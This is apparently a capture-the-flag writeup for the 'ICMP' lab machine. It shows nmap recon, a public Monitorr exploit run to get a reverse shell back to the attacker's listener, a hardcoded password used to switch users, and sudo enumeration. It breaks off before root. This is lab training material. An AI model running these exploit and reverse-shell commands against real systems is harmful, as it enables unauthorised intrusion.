 ```yaml
---
description: VulnHub & OffSec ICMP machine writeup
---
```


# \[Intermediate] ICMP

### Recon

#### Services                                                                                                                                                               21ms  ✓&#x20;

```bash
─$ nmap -sC -sV -v -T5 icmp                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://icmp/mon/
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdirs

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### Monitorr

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

\+ link on repo:

{% embed url="https://github.com/Monitorr/Monitorr" %}

### www-data

Exploit:&#x20;

{% embed url="https://www.exploit-db.com/exploits/48980" %}

{% code overflow="wrap" %}
```bash
$  python3 48980.py http://192.168.110.218/mon/ 192.168.49.110 4444
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash">$ ncat -nvlp 4444 
<strong>www-data@icmp:/var/www/html/mon/assets/data/usrimg$ pwd
</strong>/var/www/html/mon/assets/data/usrimg
</code></pre>

### Privelege Escalation

#### www-data to fox

<mark style="color:red;">`pspy`</mark> <mark style="color:red;"></mark><mark style="color:red;"></mark> enum didn't gave me anything, so I checked machine for another users:

```bash
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls /home    
ls /home
fox
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls -lsa /home/fox
ls -lsa /home/fox
total 20
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 .
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
0 lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
4 drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
4 -rw-r--r-- 1 fox  fox    33 Feb 27 19:04 local.txt
4 -rw-r--r-- 1 root root   78 Dec  3  2020 reminder

```



Checking <mark style="color:orange;">`reminder`</mark> we get a hint:

```bash
www-data@icmp:/home/fox$ cat reminder

crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

<pre class="language-php"><code class="lang-php">www-data@icmp:/home/fox$ cat devel/crypt.php
<strong>&#x3C;?php
</strong><strong>echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da'); 
</strong><strong>?>
</strong></code></pre>

```bash
www-data@icmp:/home/fox$ ls
ls
devel
local.txt
reminder
www-data@icmp:/home/fox$ su fox
su fox
Password: BUHNIJMONIBUVCYTTYVGBUHJNI

$ python -c 'import pty; pty.spawn("/bin/bash")'

fox@icmp:~$ whoami
whoami
fox
```

#### fox to root

<mark style="color:red;">`sudo -l:`</mark>

```bash
fox@icmp:~$ sudo -l 
sudo -l 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

\~ soon \~
